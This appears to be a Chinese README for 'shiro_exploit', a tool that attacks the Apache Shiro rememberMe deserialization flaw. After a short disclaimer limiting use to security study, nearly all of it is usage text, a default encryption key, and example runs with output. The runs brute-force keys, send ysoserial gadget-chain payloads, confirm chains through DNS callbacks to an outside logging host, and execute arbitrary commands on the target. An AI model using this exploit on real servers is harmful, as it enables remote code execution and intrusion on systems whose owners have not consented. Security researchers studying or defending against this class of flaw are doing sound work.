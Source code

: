 > 郑重声明：文中所涉及的技术、思路和工具仅供以安全为目的的学习交流使用，任何人不得将其用于非法用途以及盈利等目的，否则后果自行承担。

## 使用方法

```bash
➜  ~ shiro_exploit --help
Usage: shiro_exploit [--key <key>] [-m <mode>] [-t <target>] [-s <ser>] [--file <file>] [--keys <keys>] [--csv <csv>] [--proxy <proxy>] [--timeout <timeout>] [--thread <thread>] [--chain] [--exploit] [--dns <dns>] [-p <payload>] [-c <command>] [--echo-name <echo-name>] [--command-name <command-name>] [-l]

shiro_exploit

Options:
  --key             you can specify known keys
  -m, --mode        apache-shiro encryption algorithm,default: CBC
  -t, --target      the target
  -s, --ser         serialize file
  --file            read the target from the file
  --keys            read the key from the file
  --csv             export to the csv file
  --proxy           proxy to use for requests
                    (ex:[http(s)|socks5(h)]://host:port)
  --timeout         set request timeout
  --thread          number of concurrent threads
  --chain           enum chain mode
  --exploit         exploit mode
  --dns             dns identifier, default: 981tzg.ceye.io
  -p, --payload     select a payload
  -c, --command     command to execute
  --echo-name       tomcat echo request header name
  --command-name    tomcat command request header name
  -l, --list        list all payload
  --help            display usage information

```

## 详细参数

- `--key`指定Key，默认`kPH+bIxk5D2deZiIxcaaaA==`
- `-m`指定加密模式，默认`CBC`,可选：`GCM`
- `-t`单个目标
- `-s`读入ysoserial生成的文件作为payload
- `--file`从文件读入目标
- `--keys`从文件读入key
- `--csv`导出到csv文件
- `--exploit`利用模式，爆破出key后，如果开启exploit模式会读入ysoserial生成的文件作为payload，如果`--ser`
  参数为空，则为`--dns`作为URL_DNS的参数生成payload
- `--dns`验证的DNS服务器，请求为目标的`主机名_端口.你的DNS记录服务器`，默认为`981tzg.ceye.io`
- `-p`使用内置payload，配合`-c`或者`--dns`和`--echo-name`，`--command-name`，tomcat回显后面再更新
- `-l`列出内置payload
- `--chain`枚举利用链，结果查看DNS记录服务，前缀就是利用链名称。

## 使用ysoserial文件

```bash
➜  ~ shiro_exploit -t http://127.0.0.1:8080 --exploit --ser /home/kali-team/1.ser                 
+-------------------------------------------------------------------------+--------+--------+------+--------------------------+
| url                                                                     | method | verify | mode | key                      |
+=========================================================================+========+========+======+==========================+
| http://127.0.0.1:8080/login;jsessionid=EAEAD8C3FA8884D816F575E55B654694 | GET    | true   | CBC  | kPH+bIxk5D2deZiIxcaaaA== |
+-------------------------------------------------------------------------+--------+--------+------+--------------------------+

```

## 使用DNS记录验证漏洞

```bash
➜  ~ shiro_exploit -t http://127.0.0.1:8080 --exploit --dns 981tzg.ceye.io
+-------------------------------------------------------------------------+--------+--------+------+--------------------------+
| url                                                                     | method | verify | mode | key                      |
+=========================================================================+========+========+======+==========================+
| http://127.0.0.1:8080/login;jsessionid=E01994D45911DE55FCE6606CFFF48AC7 | GET    | true   | CBC  | kPH+bIxk5D2deZiIxcaaaA== |
+-------------------------------------------------------------------------+--------+--------+------+--------------------------+

```

## 爆破利用链

- 主要利用ping命令带上利用链名称拼接到DNS前缀，如果能在DNS记录中看到说明可以使用该利用链

```bash
➜  ~ shiro_exploit -t http://127.0.0.1:8080 --exploit --dns 981tzg.ceye.io --chain
+-------------------------------------------------------------------------+--------+--------+------+--------------------------+
| url                                                                     | method | verify | mode | key                      |
+=========================================================================+========+========+======+==========================+
| http://127.0.0.1:8080/login;jsessionid=E01994D45911DE55FCE6606CFFF48AC7 | GET    | true   | CBC  | kPH+bIxk5D2deZiIxcaaaA== |
+-------------------------------------------------------------------------+--------+--------+------+--------------------------+

```

- 查看DNS记录得到可用利用链，说明`bs1`,`cck3`,`cc5`,`cc7`,`cck1`和`cc6`利用链可用

```csv
969227011	bs1.127.0.0.1.8080.981tzg.ceye.io	127.0.0.1	2022-12-22 13:48:20
969226980	bs1.127.0.0.1.8080.981tzg.ceye.io	127.0.0.1	2022-12-22 13:48:19
969226976	ccK3.127.0.0.1.8080.981tZG.cEYE.Io	127.0.0.1	2022-12-22 13:48:19
969226947	cc5.127.0.0.1.8080.981tzg.ceye.io	127.0.0.1	2022-12-22 13:48:18
969226945	cc7.127.0.0.1.8080.981tzg.ceye.io	127.0.0.1	2022-12-22 13:48:18
969226936	cCK3.127.0.0.1.8080.981tzg.ceyE.iO	127.0.0.1	2022-12-22 13:48:18
969226932	cck1.127.0.0.1.8080.981tzg.ceye.io	127.0.0.1	2022-12-22 13:48:18
969226818	cc6.127.0.0.1.8080.981tzg.ceye.io	127.0.0.1	2022-12-22 13:48:14
```

## 使用内置ysoserial

- payload来自：(ysoserial_rs)[https://github.com/emo-cat/ysoserial_rs]
- 例如使用利用`commons_collections_k1`链执行命令，使用`-p`指定利用链，`-c`指定要执行的命令

```bash
➜  ~ shiro_exploit -t http://127.0.0.1:8080 --exploit -p cck1 -c "ping qq.com"                                    
+-------------------------------------------------------------------------+--------+--------+------+--------------------------+
| url                                                                     | method | verify | mode | key                      |
+=========================================================================+========+========+======+==========================+
| http://127.0.0.1:8080/login;jsessionid=5FAF1087D2448C017C2959B2AC02CDAF | GET    | true   | CBC  | kPH+bIxk5D2deZiIxcaaaA== |
+-------------------------------------------------------------------------+--------+--------+------+--------------------------+

```